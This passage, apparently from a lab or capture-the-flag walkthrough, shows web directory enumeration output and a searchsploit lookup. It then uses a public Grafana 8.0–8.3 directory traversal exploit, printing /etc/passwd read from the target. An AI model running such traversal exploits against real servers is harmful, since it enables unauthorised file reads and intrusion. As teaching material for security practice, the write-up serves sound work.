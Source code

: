 ```bash
[17:06:19] 200 -  992B  - /images/
[17:06:19] 200 -    4KB - /index.html
[17:06:19] 200 -    1KB - /index.xml
[17:06:25] 301 -  310B  - /posts  ->  http://example.org/posts/
[17:06:26] 403 -  276B  - /server-status
[17:06:26] 403 -  276B  - /server-status/
[17:06:27] 200 -  645B  - /sitemap.xml
[17:06:29] 301 -  309B  - /tags  ->  http://example.org/tags/

Task Completed
```

[https://gohugo.io/](https://gohugo.io/)  
[https://gohugo.io/getting-started/installing#fetch-from-github](https://gohugo.io/getting-started/installing#fetch-from-github)  
[https://github.com/gohugoio/hugo](https://github.com/gohugoio/hugo)  


## Grafana 8.0.0 -> 8.3.0 - Directory traversal

we know that grafana is 8.2.0 and the Directory Traversal vulnerability bellow is from 8.0.0 to 8.3.0
```bash
searchsploit grafana
--------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                             |  Path
--------------------------------------------------------------------------- ---------------------------------
Grafana 7.0.1 - Denial of Service (PoC)                                    | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read                | multiple/webapps/50581.py
--------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
and it works indeed
```bash
python3 grafana-traversal.py -H http://example.org:3000
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
```